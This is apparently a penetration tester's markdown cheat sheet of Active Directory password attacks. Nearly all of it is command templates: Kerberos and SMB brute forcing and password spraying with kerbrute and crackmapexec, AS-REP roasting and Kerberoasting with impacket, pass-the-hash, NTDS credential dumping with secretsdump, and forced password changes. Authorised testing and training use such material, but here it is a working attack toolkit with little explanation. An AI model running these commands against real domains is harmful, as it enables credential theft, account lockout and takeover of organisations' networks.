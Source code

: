 # Passwords
## Kerberos
Brute force passwords - WILL LOCKOUT USER:
`kerbrute bruteuser --dc <IP> -d <DOMAIN> <PASSLIST> <USER>`

Check a password for userlist:
`kerbrute passwordspray --dc <IP> -d <DOMAIN> -v <USERLIST> <PASS>`

AS-REP (AS-REP Roasting):
`impacket-GetNPUsers -dc-ip <IP> <DOMAIN>/ -usersfile <USERLIST>` # --downgrade to get correct hash
`impacket-GetNPUsers -dc-ip <IP> <DOMAIN>/<USER>:<PASS> -request` # --downgrade to get correct hash
`crackmapexec ldap <IP> --kdcHost <IP> -u <USER> -p <PASS> --asreproast <OUTPUT>`

TGS-REP (Kerberoasting):
`impacket-GetUserSPNs -dc-ip <IP> <DOMAIN>/<USER>:<PASS> -request`
`crackmapexec ldap <IP> --kdcHost <IP> -u <USER> -p <PASS> --kerberoasting <OUTPUT>`

## SMB
Brute force passwords - WILL LOCKOUT USER:
`crackmapexec smb <IP> -u <USER> -p <PASSLIST>`
`crackmapexec smb <IP> -u <USER> -H <HASHES>`

Check password for users in list:
`crackmapexec smb <IP> -u <USERLIST> -p <PASS>`

If you have admin rights. Dump NTDS file:
`impacket-secretsdump '<DOMAIN>/<USER>:<PASS>@<IP>'`

Change password user:
`smbpasswd -U <USER> -r <DC_IP>`